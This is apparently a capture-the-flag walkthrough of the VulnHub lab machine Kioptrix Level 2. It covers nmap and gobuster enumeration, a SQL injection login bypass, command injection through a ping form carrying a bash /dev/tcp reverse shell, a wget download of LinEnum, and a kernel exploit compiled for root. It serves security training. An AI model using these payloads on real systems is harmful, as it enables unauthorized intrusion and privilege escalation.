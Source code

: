```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

`' or '1'='1`

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened `` | id`` which proves successful.
 
 ![Ping RCE check](/images/KioptrixL2/PingID.JPG)
 
### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using `python -c 'import pty; pty.spawn("/bin/sh")'` from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
### Privilege Escalation
 
I started a python web server `python3 -m http.server` in my directory containing LinEnum.sh

`cd /tmp` and `wget http://x.x.x.49:8000/LinEnum.sh` to get the script onto the target and `chmod 700 LinEnum.sh` to be able to run it.

This gets us important system information such as CentOS release 4.5 (Final) and Linux version 2.6.9-55

`searchsploit linux kernel 2.6 centos` suggests we can use the `9545.c` exploit

To upload to the target machine, we use the same python webserver method as before

`gcc -o exploit 9545.c`

`chmod 700 exploit`

`./exploit`

`uid=0(root) gid=0(root) groups=48(apache)` and we are root
